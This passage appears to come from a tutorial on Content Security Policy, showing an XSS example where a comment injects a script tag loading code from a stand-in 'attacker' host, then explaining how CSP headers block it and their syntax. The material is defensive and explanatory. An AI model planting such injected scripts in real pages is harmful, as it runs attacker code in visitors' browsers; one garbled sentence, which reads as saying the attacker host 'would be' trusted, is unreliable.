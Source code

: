 ```html
<html>

Latest comment:

<script src="http://attacker/malicious-script.js"></script>

</html>
```

With a properly defined CSP policy, the browser would not load or execute malicious-script.jsbecause [http://attacker/no](http://attacker/no) would be in the trusted source set. Although in this case, the website could not securely handle user input, the CSP policy prevented the vulnerability from causing any damage.

Even if the attacker had injected the script code inline instead of linking it to an external file, a properly defined CSP policy that disallowed JavaScript inline would also have prevented the vulnerability from causing any harm.

### How to enable CSP?

By default, browsers do not enforce CSP. To enable CSP on your website, pages must have an additional HTTP header: Content-Security-Policy. Any page sent with this header will have its security policy respected by the browser that loads it, as long as the browser supports CSP.

Since the security policy is sent with each HTTP response, a server can set its policy on a page-by-page basis. The same policy can be applied to an entire website by providing the same CSP header in each response.

The value of the Content-Security-Policy-header is a string that defines one or more security policies that will take effect on your website. The syntax of this string will be described below.

*Sample headers in this section use newlines and indentation for clarity; this should not be present in an actual header.*

### CSP syntax

The syntax of a CSP header is as follows:

> Content‑Security‑Policy:
> 
> *directive* *source‑expression*, *source‑expression*, ...;
> 
> *directive* ...;
> 
> ...

This syntax is composed of two elements:

- **Directives** are strings specifying a resource type, taken from a predefined list.
- **Source expressions** are patterns describing one or more servers from which resources can be downloaded.

For each directive, the given source expressions define which sources can be used to download resources of the respective type.
